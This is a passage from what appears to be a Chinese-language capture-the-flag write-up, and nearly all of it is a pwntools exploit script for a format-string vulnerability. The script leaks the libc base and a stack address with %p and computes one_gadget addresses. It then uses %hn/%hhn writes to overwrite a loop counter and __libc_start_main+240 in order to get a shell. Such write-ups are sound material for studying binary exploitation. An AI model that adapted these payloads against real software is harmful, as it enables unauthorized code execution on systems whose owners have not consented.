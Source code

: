 用上面两步来对i的次数进行修改

```plain
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
```

这四步就是把 \_libc\_start\_main+240 修改成one\_gadget

## exp

```plain
from pwn import *
context.log_level = 'debug'
context.arch="amd64"
p=process("./pwn")
#p=remote("node4.buuoj.cn",25309)
elf=ELF("./pwn")
libc=ELF('libc.so.6')

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#gdb.attach(p)

ru('Give me your name:')
s(b'a'*32)
ru('favourite food: ')
sl(b'%9$p-%11$p')#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#gdb.attach(p)
ru("0x")
libc_base=int(r(12),16)-libc.sym['__libc_start_main']-240
leak('libc_base:',libc_base)
ogs=[0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[0]
leak('og ',og)
leak('(og>>16)&0xff',((og>>16)&0xff))
#leak('og')

ru("0x")
stack=int(r(12),16)
stack1=stack-224
leak('stack1 ',stack1)
leak('stack1&0xffff ',stack1&0xffff)
leak('(stack1+2)&0xffff',(stack1+2)&0xffff)
i_addr=stack-(0x7ffe373b3e18-0x7ffe373b3d10)+0x8+0xc
leak('i_addr',i_addr)
#gdb.attach(p)
sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')
```